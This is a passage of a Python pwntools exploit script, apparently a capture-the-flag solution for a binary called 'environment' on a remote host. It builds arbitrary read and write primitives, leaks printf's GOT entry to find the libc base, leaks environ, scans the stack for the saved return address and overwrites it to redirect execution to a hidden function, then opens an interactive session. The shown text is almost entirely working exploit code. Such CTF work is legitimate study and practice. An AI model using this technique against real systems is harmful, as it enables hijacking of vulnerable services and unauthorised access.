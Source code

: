 ```python
        for j in range(2):
            prompt(r)
            r.sendline(b'2')
        prompt(r)
        r.sendline(b'n')
    r.recvuntil(b'\n')
    return r.recvuntil(b'\n').strip()

def arb_read(r: tubes.tube.tube, addr: int, re: int = 0) -> int:
    recycle(r, re)
    prompt(r)
    r.sendline(str(addr))
    # have to strip weird color codes from it ... 
    return u64(r.recvuntil(b'\n').strip()[4:].ljust(8, b'\x00'))

def arb_write(r: tubes.tube.tube, loc: int, addr: int) -> None:
    prompt(r)
    r.sendline(b'1')
    prompt(r)
    r.sendline(str(loc))
    prompt(r)
    r.sendline(str(addr))
    
def main():
    p = ELF('./environment')
    l = ELF('./libc.so.6')
    r = remote('165.227.237.7', 32647)

    printf: int = int(recycle(r, 5).decode().split('0x')[1][:-1], 16)
    print(f'[*] Leaked got.printf @ 0x{printf:x} ... ')
    l.address = printf - l.sym['printf']
    print(f'[*] Got libc base = 0x{l.address:x} ... ')

    environ: int = arb_read(r, l.sym['environ'], re=5)
    print(f'[*] Leaked environ = 0x{environ:x} ... ')

    print(f'[*] RIP should be @ 0x{environ-RIP_OFF:x} (at least locally) ... ')
    print(f'[*] Starting leak & compare ... NOW!')
    for i in range(RIP_OFF+40, 0, -8):
        cu: int = arb_read(r, environ-i)
        print(f' -> Leaked value 0x{cu:x} ... ')
        if cu == p.sym['main']+169:
            print(f'[+] Found RIP offset = 0x{i:x} ... ')
            off: int = i
            break
    print(f'[*] Redirecting code execution by overwriting RIP ... NOW!')
    arb_write(r, environ-off, p.sym['hidden_resources'])
    r.interactive()

if __name__ == '__main__':
    main()
```
